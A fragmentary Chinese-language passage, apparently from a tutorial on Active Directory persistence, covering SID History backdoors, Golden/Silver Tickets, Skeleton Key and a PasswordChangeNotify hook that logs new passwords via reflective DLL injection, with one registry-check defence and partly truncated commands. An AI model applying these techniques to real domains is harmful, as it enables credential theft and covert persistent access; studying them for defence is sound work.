
防御措施：
1 | 查看hklm\system\currentcontrolset\control\lsa\Security Packages注册表项是否含有可疑的DLL文件 |
SID History后门
test为恶意账户，administrator
1 | Import-module ActiveDirectory |

此时使用xiaom账号可以访问域控

Golden Ticket and Silver Ticket
Skeleton Key
Hook PasswordChangeNotify
这个方法要使用Invoke-ReflectivePEInjection.ps1将HookPasswordChange.dll注入内存，在目标系统中启动管理员权限的powershell：
1 | . .\Invoke-ReflectivePEInjection.ps1 |
此时如果再修改用户密码则修改之后的密码会记录在C:\windows\Temp\password.txt文件中。
https://github.com/clymb3r/Misc-Windows-Hacking